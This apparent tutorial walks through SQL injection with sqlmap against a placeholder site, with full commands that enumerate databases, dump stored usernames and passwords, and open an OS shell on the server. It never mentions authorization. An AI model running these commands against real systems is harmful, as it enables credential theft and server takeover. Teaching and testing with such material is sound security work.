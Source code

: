 # Walkthrough: SQL Injection with sqlmap

This document provides a step-by-step guide on how to identify and exploit a basic SQL Injection vulnerability using `sqlmap`.

**Target**: A web application with a vulnerable parameter (e.g., in a login form or URL).
**Objective**: To enumerate the database and gain an operating system shell on the target server.

-----

### Phase 1: Discovery and Confirmation

First, we need to identify a part of the web application that might be vulnerable. This is often a parameter in a URL that fetches data from the database.

1.  **Identify a Potential Target**
    Let's assume we have found a URL like this:
    `http://vulnerable-site.com/products.php?id=1`

2.  **Manual Check (Optional but Recommended)**
    You can perform a quick manual check by adding a single quote (`'`) to the parameter and observing the application's response.
    `http://vulnerable-site.com/products.php?id=1'`

    If the page returns a database error message, it's a strong indicator of an SQL Injection vulnerability.

3.  **Confirm with `sqlmap`**
    Now, we use `sqlmap` to automatically test and confirm the vulnerability. The `--batch` flag tells `sqlmap` to use default answers for all questions.

    ```bash
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" --batch
    ```

    If `sqlmap` confirms that the parameter is injectable, you can proceed.

### Phase 2: Database Enumeration

Once the vulnerability is confirmed, we can use `sqlmap` to map out the entire database structure.

1.  **List Databases**
    Use the `--dbs` flag to list all available databases.

    ```bash
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" --dbs --batch
    ```

    `sqlmap` might return databases like `information_schema`, `webapp_db`, etc.

2.  **List Tables from a Specific Database**
    Let's say we are interested in the `webapp_db`. We use the `-D` flag to specify the database and `--tables` to list its tables.

    ```bash
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" -D webapp_db --tables --batch
    ```

    This might reveal tables like `users`, `products`, `orders`.

3.  **List Columns from a Table**
    Now, let's inspect the `users` table. We use the `-T` flag for the table name and `--columns` to see its columns.

    ```bash
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" -D webapp_db -T users --columns --batch
    ```

    This could show columns like `id`, `username`, `password`.

4.  **Dump Data from Columns**
    Finally, let's dump the contents of the `username` and `password` columns.

    ```bash
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" -D webapp_db -T users -C "username,password" --dump --batch
    ```

    `sqlmap` will display the extracted user credentials.

### Phase 3: Gaining an OS Shell

If the database user has sufficient privileges (`FILE` privileges) and `sqlmap` can find a writable directory in the web root, it's possible to get a command shell.

1.  **Attempt to Get a Shell**
    The `--os-shell` command automates this process. `sqlmap` will ask for the language of the web application (e.g., PHP, ASP) and attempt to upload a small shell payload.

    ```bash
    sqlmap -u "http://vulnerable-site.com/products.php?id=1" --os-shell
    ```

2.  **Interact with the Shell**
    If successful, `sqlmap` will provide you with a prompt. You can now execute operating system commands on the target server.

    ```
    os-shell> id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

    os-shell> ls -la /var/www/html
    ... (directory listing) ...
    ```

**Walkthrough complete.**
